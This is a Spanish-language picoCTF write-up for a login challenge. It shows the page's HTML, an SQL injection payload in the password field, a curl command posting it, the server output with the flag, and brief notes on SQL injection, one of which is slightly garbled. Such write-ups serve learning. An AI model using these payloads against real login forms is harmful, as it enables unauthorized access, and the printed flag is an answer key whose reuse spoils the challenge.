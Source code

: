 ## Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!

## Hints
+ There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
+ Try to think about how the website verifies your login.


## Solución
``` html
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="[//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css](view-source:https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css)">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="[login.php](view-source:https://jupiter.challenges.picoctf.org/problem/33850/login.php)" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="username">Username:</label>
                                <input type="text" id="username" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>

```
introduccion de SQL injection
En el login se  inicia con cualquier nombre de usuario mientras que en password se valida con la sigueinte sentencia sql 
``` sql
' or 1==1;
```
Dando la siguiente página 
``` html
<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_f8adf3fb}</p>
```

``` bash
┌─[ramdark@parrot]─[~]
└──╼ $curl -s https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin&password=' or 1==1;&debug=1"
<pre>username: admin
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1==1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_f8adf3fb}</p>┌─[ramdark@parrot]─[~]
└──╼ $
```


## Flag

``` picoCTF{s0m3_SQL_f8adf3fb} ```


## Notas adicionales

SQL injection es una vulnerabilidad que permite al atacante interferir las peticiones que se realizan a una base de datos.
Una inyección SQL basica es SELECT * FROM Users WHERE UserId = 105 OR 1=1;

1=1; indica como una cadena vacia por lo tanto  la sentencia se indica verdadera. 



|Comando | Descripcion |
|------------ | ------------|
| curl | funciona como una forma de verificar la conectividad a las URL y para transferir datos|
|-d |asume que se enviara un POST y se envian los datos|




## Referencias
+ [SQL injection](https://portswigger.net/web-security/sql-injection)